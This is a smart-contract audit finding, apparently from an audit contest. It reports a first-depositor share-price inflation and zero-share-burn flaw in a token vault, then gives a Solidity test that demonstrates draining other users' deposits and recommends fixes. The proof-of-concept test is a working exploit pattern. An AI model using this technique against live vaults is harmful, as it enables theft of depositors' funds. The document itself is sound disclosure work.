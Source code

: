 JohnSmith

high

# First user can steal everyone else's tokens via share price manipulation and zero share burn

## Summary
A user who joins the systems first (deposits first) or temporary just only one left can manipulate share price and steal everybody's tokens by sending tokens to the system externally.
This attack is possible because protocol allows depositing a small amount of tokens and minting zero shares
## Vulnerability Detail
- Alice deposits 1 wei, and receives 1000 shares (if you initialize the vault with `STARTING_SHARES_PER_LINK = 1000` as in your test and deploy scripts)
- She makes price 1:1 via depositing 999 tokens with ERC20.transfer() 
- Next withdraws tokens worth 999 shares, so protocol left with 1 share and 1 token
- Inflates the share price to 1 share : 10^18 tokens
- People join and deposit funds
- At some point Alice can withdraw all money from vault because the protocol allows burning zero shares
## Impact
Stolen funds
## Code Snippet
One test is worth thousand words so here is the test, which you can place into your `contract Vault_depositTest` inside `deposit.t.sol` file.
```solidity
function testSharePriceManipulationAndZeroShareBurn() public {
        uint256 bobAmount = 100 ether;
        uint256 carolAmount = 120 ether;
        link.mint(alice, 1 ether);
        link.mint(bob, bobAmount);
        link.mint(carol, carolAmount);

        // Alice deposits 1 wei
        vm.startPrank(alice);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(1 wei);
        vm.stopPrank();
        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // Alice would want to reduce share price to 1:1 instead of 1000:1
        vm.prank(alice);
        link.transfer(address(vault), 999);

        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares
        assertEq(vault.balanceOf(alice), 1000); // which worth 1000 tokens

        // Alice reduces amount of shares the vault has so it stores 1 share and 1 token
        vm.prank(alice);
        vault.withdraw(999);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // // Alice inflates price of a share:
        vm.prank(alice);
        link.transfer(address(vault), 1 ether - 1);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 1 ether); // which worth  1 ether in tokens
 
        // // Bob deposits
        vm.startPrank(bob);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(bobAmount);
        vm.stopPrank();

        assertEq(vault.shares(bob), 100); // Bob got 100 shares 
        assertEq(vault.balanceOf(bob), bobAmount); // Bob's balance is 100 ether tokens

        // // Carol deposits
        vm.startPrank(carol);
        link.approve(address(vault), carolAmount);
        vault.deposit(carolAmount);
        vm.stopPrank();

        assertEq(vault.shares(carol), 120); // Carol got 120 shares 
        assertEq(vault.balanceOf(carol), carolAmount); // Carol's balance is 120 ether tokens

        // At some point Alice decides to take some tokens from vault or all of them
        vm.startPrank(alice);
        for (uint i; i < 150; i++) {
            uint withdrawAmount = vault.convertToTokens(1) - 1 wei;
            vault.withdraw(withdrawAmount);
        }
        vm.stopPrank();

        assertGe(link.balanceOf(alice), 100 ether); // Alice deposited 1 ether tokens but withdraw 100+ at the expense of the Vault
        console.log(link.balanceOf(alice));
    }
```

## Tool used

Manual Review

## Recommendation
Ensure the number of shares to be burned is non-zero: `require(_shares != 0, "zero shares burned");`

And fix price manipulation like
-  [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
-   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
-   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.
-   [BalancerV2 solution](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/pool-utils/contracts/BasePool.sol#L302-L316) 
